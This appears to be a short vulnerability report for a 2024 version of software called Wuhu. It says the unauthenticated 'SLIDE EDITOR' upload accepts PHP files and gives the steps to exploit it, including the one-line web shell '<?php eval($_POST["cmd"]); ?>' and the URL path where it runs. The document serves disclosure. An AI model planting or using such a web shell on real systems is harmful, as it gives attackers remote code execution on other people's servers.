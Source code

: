 # description
In the "SLIDE EDITOR" feature, there is no strict filtering of the uploaded content, allowing an attacker to upload PHP files and thereby execute malicious code.
<img width="1058" alt="image" src="https://github.com/user-attachments/assets/73b6f2d6-6813-4e31-9716-01c4773ab45e">

# version
2024

# step
1. It appears that the Wuhu backend does not require authentication.
2. Click on the "SLIDE EDITOR" option in the menu bar and upload a shell.php file with the content <?php eval($_POST["cmd"]); ?>.
3. Access the malicious file via http://ip/slides/shell.php.

<img width="924" alt="image" src="https://github.com/user-attachments/assets/5b4065cf-a968-4057-b8af-f73abebc80f6">

